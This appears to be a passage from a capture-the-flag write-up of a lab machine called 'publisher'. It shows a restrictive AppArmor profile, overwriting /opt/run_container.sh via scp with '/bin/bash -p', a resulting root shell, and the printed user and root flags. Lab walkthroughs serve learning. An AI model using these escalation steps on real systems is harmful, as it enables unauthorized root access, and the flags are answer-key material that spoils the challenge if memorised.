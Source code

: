 First I check which shell I'm using and apparently its `/usr/sbin/ash`.

I can then find the restrictions placed on me with :

```
think@publisher:~$ cat /etc/apparmor.d/usr.sbin.ash
#include <tunables/global>

/usr/sbin/ash flags=(complain) {
  #include <abstractions/base>
  #include <abstractions/bash>
  #include <abstractions/consoles>
  #include <abstractions/nameservice>
  #include <abstractions/user-tmp>

  # Remove specific file path rules
  # Deny access to certain directories
  deny /opt/ r,
  deny /opt/** w,
  deny /tmp/** w,
  deny /dev/shm w,
  deny /var/tmp w,
  deny /home/** w,
  /usr/bin/** mrix,
  /usr/sbin/** mrix,

  # Simplified rule for accessing /home directory
  owner /home/** rix,
}
```

Looking further into the run_container.sh script a write-up tells me that docker is not called with its full path and hence could be susceptible to PATH injection.

But that is complicated.

Instead `scp` can be used to replace the /opt/run_container.sh with a malicious command :

```
❯ echo "/bin/bash -p" > run_container.sh

❯ scp -i think_id_rsa ./run_container.sh think@10.10.207.110:/opt/run_container.sh
run_container.sh                                     100%   13     0.0KB/s   00:00    
```

I can then run `/usr/sbin/run_container` which runs `/opt/run_container.sh` and gives me a root shell.

```
think@publisher:/var/tmp$ cat /opt/run_container.sh
/bin/bash -p
think@publisher:/var/tmp$ /usr/sbin/run_container

bash-5.0# whoami
root
bash-5.0# cat /root/root.txt
3a4225cc9e85709adda6ef55d6a4f2ca
```


---
## **Summary**

- User Flag : fa229046d44eda6a3598c73ad96f4ca5
- Root Flag : 3a4225cc9e85709adda6ef55d6a4f2ca